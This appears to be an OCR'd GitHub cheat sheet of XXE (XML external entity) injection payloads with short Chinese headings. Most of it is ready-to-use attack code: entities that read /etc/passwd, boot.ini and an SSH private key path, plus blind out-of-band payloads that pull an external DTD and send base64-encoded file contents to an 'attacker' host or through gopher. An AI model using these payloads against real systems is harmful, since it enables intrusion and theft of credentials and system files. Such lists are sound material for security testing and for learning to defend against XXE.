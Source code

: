 	<root>
	<参数name>name</参数name>
	<参数value>&xxe;</ 参数value>
	</root>

	<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>

	<?xml version="1.0"?>
	<!DOCTYPE data [
	<!ELEMENT data (#ANY)>
	<!ENTITY file SYSTEM "file:///etc/passwd">
	]>
	<data>&file;</data>

	<?xml version="1.0" encoding="ISO-8859-1"?>
	<!DOCTYPE foo [  
	<!ELEMENT foo ANY >
	<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

	<?xml version="1.0" encoding="ISO-8859-1"?>
	<!DOCTYPE foo [  
	<!ELEMENT foo ANY >
	<!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
  ##### 有回显读取本地文件
	<?xml version="1.0" encoding="utf-8"?> 
	<!DOCTYPE creds [  
	<!ENTITY goodies SYSTEM "file:////etc/passwd"> ]> 
	<creds>&goodies;</creds>
	也可去掉文件列目录
	file:///root/.sh/id_rsa
	特殊字符
	<?xml version="1.0" encoding="utf-8"?> 
	<!DOCTYPE roottag [
	<!ENTITY % start "<![CDATA[">   
	<!ENTITY % goodies SYSTEM "file:////tmp/xxx.txt">  
	<!ENTITY % end "]]>">  
	<!ENTITY % dtd SYSTEM "http://attacker/evil.dtd"> 
	%dtd; ]> 
	<roottag>&all;</roottag>
	evil.dtd
	<?xml version="1.0" encoding="UTF-8"?> 
	<!ENTITY all "%start;%goodies;%end;">
  ##### Blind OOB XXE无回显读取
	需使用参数实体，引用外部DTD
	Payload
	<!DOCTYPE convert [ 
	<!ENTITY % remote SYSTEM "http://ip/test.dtd">
	%remote;%int;%send;
	]>
	test.dtd
	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
	<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://attacker:9999?p=%file;'>">
  ##### 列目录
	远程payload
	<!ENTITY % a SYSTEM "file:///"> <!ENTITY % b "<!ENTITY &#37; c SYSTEM 'gopher://ip:80/%a;'>"> %b; %c;
	注入payload
	<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://attacker:80/1.xml">%remote;]><root/>
